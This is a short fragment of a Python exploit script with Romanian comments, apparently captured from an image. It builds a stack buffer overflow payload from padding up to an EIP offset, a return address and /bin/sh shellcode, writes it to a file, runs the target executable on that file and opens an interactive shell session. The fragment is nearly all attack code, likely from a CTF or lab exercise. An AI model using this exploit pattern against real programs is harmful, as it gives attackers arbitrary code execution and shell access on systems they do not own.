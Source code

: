 ```python

    # Creează payload-ul și salvează-l într-un fișier
    payload = EIP_OFFSET * b'a' + p32(helper_address) + BIN_SH_SHELLCODE
    open(PAYLOAD_FILENAME, "wb").write(payload)

    # Creează un proces nou pe baza executabilului
    p = process.process([EXECUTABLE_PATH, PAYLOAD_FILENAME, "0"])
    p.recv(timeout=0.1)
    p.interactive()


if __name__ == "__main__":
    main()
```
